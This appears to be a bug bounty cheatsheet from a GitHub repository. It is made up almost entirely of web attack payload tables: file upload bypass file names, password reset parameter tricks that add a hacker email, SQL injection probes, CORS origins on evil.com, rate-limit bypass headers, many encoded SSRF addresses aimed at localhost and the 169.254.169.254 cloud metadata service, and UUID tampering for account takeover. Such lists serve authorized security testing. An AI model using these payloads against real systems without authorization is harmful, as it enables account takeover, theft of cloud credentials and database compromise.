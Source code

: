 # Bounty Hunter Cheatsheet
---

## File Upload

| Filename | Description |
|----------|-------------|
|.htaccess|htaccess rules|
|file.svg|svg for xss|
|file.SVg|case insensitive|
|file.png.svg|double extension|
|file.php%00.png|null byte|
|file.png' or '1'='1|sql injection|
|../../file.png|directory traversal|
|file.'svg|invalid extension|

## Password Reset

### Parameter payloads

| Payload | Description |
|----------|-------------|
|email=victim@xyz.tld&email=hacker@xyz.tld|double parameter|
|email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld|carbon copy parameter|
|email=victim@xyz.tld,hacker@xyz.tld|colon separator|
|email=victim@xyz.tld%20hacker@xyz.tld|space separator|
|email=victim@xyz.tld\|hacker@xyz.tld|pipe separator|
|email=victim|no domain or tld|
|email=victim@xyz|no tld|
|{"email":["victim@tld.xyz","hacker@tld.xyz"]}|json multiple email table|

### Related other cases

| Technique | Goal |
|----------|-------------|
|reset token modification|account takeover|
|body response token leak|account takeover|
|token guess or bruteforce (timestamp, userid)|account takeover|
|modify header host domain|host reflected in mail and steal token|

## SQL Injection

| Payload | Description |
|----------|-------------|
|/?q=1'|simple quote|
|/?q=1"|double quote|
|/?q=[1]|array value|
|/?q[]=1|array parameter|
|/?q=1\`|backquote|
|/?q=1\\ |escape backslash|
|/?q=1/\*'\*/|comment simple quote|
|/?q=1/\*!1111'\*/|comment simple quote|
|/?q=1'\|\|'asd'\|\|'|string concatenation|
|/?q=1' or '1'='1|or statement with quotes|
|/?q=1 or 1=1| or statement without quotes|
|/?q='or''='|or statement no spaces|

## CORS

| Payload | Description |
|----------|-------------|
|evil.com|attacker's fqdn|
|company.evil|attacker's tld|
|evil.company.tld|attacker's subdomain|

## Recon


`site:http://ideone.com | site:http://codebeautify.org | site:http://codeshare.io | site:http://codepen.io | site:http://repl.it | site:http://justpaste.it | site:http://pastebin.com | site:http://jsfiddle.net | site:http://trello.com "$TARGET"`

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

## Rate limit bypass

```
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

**Increment last octate if blocked**

## Subdomain list

amass + altdns + dnsprobe + nmap

## Information disclosure

- Check if email disclosed in response after inviting a user
- Check reverse search in API
> GET /api/account?email=X

## SSRF

`site.com/?url=FUZZ`

```
http://169.254.169.254\http://0.google.com <=== PHP cve2020
https://[0:0:0:0:0:0:0:0]
https://0.0.0.0
https://[::]
https://0177.1
https://0x7f.1
http://0x7f000001
http://2130706433
http://127.000.001
https://[0:0:0:0:0:ffff:0.0.0.0]
https://[::ffff:0.0.0.0]
https://017700000001
https://[0:0:0:0:0:ffff:127.0.0.1]
https://[::ffff:127.0.0.1]/
https://[::ffff:7f00:2]
https://[::ffff:127.0.0.1]
https://[::ffff:7f00:1]
https://[0:0:0:0:0:ffff:127.0.0.2]
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
https://[::ffff:127.0.0.2]
http://[::ffff:a9fe:a9fe]
https://0x7f.0.0.1
https://[::ffff:0:0]
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
http://169-254-169-254.nip.io
http://127.1
http://127.000000000000000.001
http://127.000.000.00000000000000001
```

## Account Takeover

UUID, 2FA, any token...

```
UUID: 0
UUID: 0000
UUID: null
UUID: nil
UUID: numerical value
UUID:
```

## Bad Practice

- Check if email links are in HTTP
- Check if old password is asked when changing password
